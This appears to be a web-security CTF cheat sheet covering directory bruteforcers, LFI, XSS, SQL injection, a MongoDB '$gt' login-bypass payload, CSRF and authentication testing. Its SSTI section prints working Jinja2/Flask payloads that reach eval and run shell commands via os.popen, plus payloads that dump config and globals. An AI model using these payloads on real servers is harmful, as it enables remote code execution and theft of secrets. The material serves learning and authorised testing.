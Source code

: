 ##  Web directory bruteforcers
- dirb(run dirb on terminal)
- dirbuster (requires GUI)
- gobuster (similar tool)
- dirsearch(faster alternative to dirb) [GitHub](https://github.com/maurosoria/dirsearch)
##  Web crawlers
- dirhunt [GitHub](https://github.com/Nekmo/dirhunt)
##  Packet utils
- Burp Suite (requires GUI) [Website](https://portswigger.net/burp)
- wget
## LFI (Local File Inclusion)
- Commonly found in PHP web application (maybe through Wordpress plugins etc)
- Vulnerable websites can allow you to access local files through directory traversal
- Look out for ways where you can supply a file path and it is served as a download/printed to the page
## XSS
- Stored XSS
> Website uses external resources that contains malicious code</br>
> If an SVG with XSS payload is in an iframe or embed of a website, it can be executed
- Reflected XSS
> When queries to a website is handled and returned in an unsafe way
- DOM based XSS
> Client side attack, browser executes payload that didn't came from the server
## SQL Injection
### Testing
- Try using one (single or double) quote for the input and see if there is any errors
- If an error is returned, the website might be vulnerable
### Types of attack
- Union based attack
> Application displays the output of the query, allowing you to steal information from the database
- Error based attack
> Application returns an error with details about the query, helping you to craft queries to bypass checks
- Resources
> Sqlmap [GitHub](https://github.com/sqlmapproject/)</br>
> Learn and try using SQL [Website](http://mystery.knightlab.com/)
## Query Selector Injection
### Example
- In MongoDB + NodeJS web apps
> Query for login details
```js
db.users.find({username: username, password: password});
```
> Malicious input
```
{
    "username": {"$gt": ""},
    "password": {"$gt": ""}
}
```
> {"$gt": ""} will result in true, $gt is a query selector which compares with ""
### Mitigation
- Make sure input gets sanitised as string
- Remove $ and . to prevent query selectors
## Server-side Template Injection (SSTI)
### Testing:  

```
{{ 7*'7' }}
    Twig: 49
    Jinja2: 7777777
{{ 7 }}
    Golang: 7
```

### How to perform the SSTI:
For Flask servers:

Get config:
`{{config}}`

Python RCE:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<Python code here>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Execute shell statements:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("<SHELL STATEMENT HERE>").read()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Get all classes:
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Get local/global variables (from Python RCE)
```python
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```

For golang:
```
{{.<variable or function here>}}
```
Note that the dot is important.

- Reference/more info [GitHub](https://github.com/w181496/Web-CTF-Cheatsheet#ssti) / [Translated Version](https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti)
- Payload for more languages [Website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## CSRF
### Testing
- Steps to test for CSRF [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
## Broken Authentication
### Testing
- Steps to test for Broken Authentication [Guide](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
## Apache
- `.htaccess` files are configuration files for its directory
## Practice
- bWAPP, a free and open source deliberately insecure web application [Website](http://www.itsecgames.com/)
